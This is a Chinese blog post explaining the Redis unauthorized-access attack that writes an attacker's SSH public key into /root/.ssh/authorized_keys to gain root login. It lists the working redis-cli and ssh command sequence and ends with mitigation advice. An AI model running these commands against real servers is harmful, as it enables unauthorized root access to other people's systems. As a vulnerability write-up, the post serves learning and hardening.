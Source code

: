 ```yaml
---
title: 利用Redis未授权访问配合SSHkey文件提权
date: 2016-08-23 09:12:55
categories:
- Internet
tags: 
- Redis
---
```

## 一.漏洞概述
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

## 二.漏洞分析与利用
#### 1. 先创建秘钥文件
```bash
ssh-keygen –t rsa
```
#### 2. 利用空口令登录redis
```bash
redis-cli -h xxx.xxx.xxx.xxx

config set dir /root/.ssh
config get dir
config set dbfilename authorized_keys
set test "\n\n\nssh-rsa  key_pub\n\n\n\n"
save
```
其中key_pub为生成的公钥,即可将公钥保存在远端服务器,使得登录时不需要输入账号与密码.

#### 3. 利用私钥登录root@xxx.xxx.xxx.xxx
```bash
ssh -i id_rsa root@xxx.xxx.xxx.xxx
```

## 三.漏洞修补方法
1. 禁止使用 root 权限启动 redis 服务；
2. 对 redis 访问启用密码认证，并且添加 IP 访问限制；
3. 尽可能不对公网直接开放 SSH 服务。

## 四.参考
- [zoomeye](https://www.zoomeye.org/)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
- [Redis未授权访问导致可远程获得服务器权限](http://www.2cto.com/Article/201511/449779.html)
        